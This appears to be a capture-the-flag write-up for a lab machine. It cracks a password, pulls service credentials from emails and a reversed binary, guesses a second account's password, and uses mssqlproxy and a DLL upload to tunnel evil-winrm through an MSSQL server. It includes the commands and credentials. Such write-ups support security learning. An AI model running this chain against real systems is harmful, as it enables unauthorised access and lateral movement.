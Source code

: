 Which cracks to:
```
Roper4155
```

Download files in the NetLogon share.

There are two .msg files which are outlook emails. (another user too cybervaca)
```
Due to the problems caused by the Oracle database installed in 2010 in Windows, it has been decided to migrate to MSSQL at the beginning of 2020.
Remember that there were problems at the time of restarting the Oracle service and for this reason a program called "Reset-Service.exe" was created to log in to Oracle and restart the service.
```

`Reset-Service.exe` probs has creds.

Reversing the binary does indeed give creds.

```
svc_oracle:#oracle_s3rV1c3!2010
```

Dump list of users with cme.

Looking in the list there is a svc_mssql account.

Using the same password structure to guess the pwd. (2020 from the email)
```
svc_mssql:#mssql_s3rV1c3!2020
```

It works!

# MSSQL proxy
Going to use mssql as a proxy. :)

Using this repo: [link](https://github.com/blackarrowsec/mssqlproxy/releases/tag/0.1)

```
python3 mssqlclient.py sa@10.10.10.240
```

Then in the sql shell
```
SQL> enable_ole
SQL> upload reciclador.dll c:\windows\temp\reciclador.dll
```

Rename assembly.dll to be `Microsoft.SqlServer.Proxy.dll` then:
```bash
python3 mssqlclient.py sa@10.10.10.240 -install -clr Microsoft.SqlServer.Proxy.dll
python3 mssqlclient.py sa@10.10.10.240 -check -reciclador 'C:\windows\temp\reciclador.dll'
python3 mssqlclient.py sa@10.10.10.240 -start -reciclador 'C:\windows\temp\reciclador.dll'
```

Now it will act as a socks5 proxy on port 1337 which means evil-winrm time.

```
proxychains evil-winrm -u svc_mssql -p '#mssql_s3rV1c3!2020' -i 127.0.0.1
```
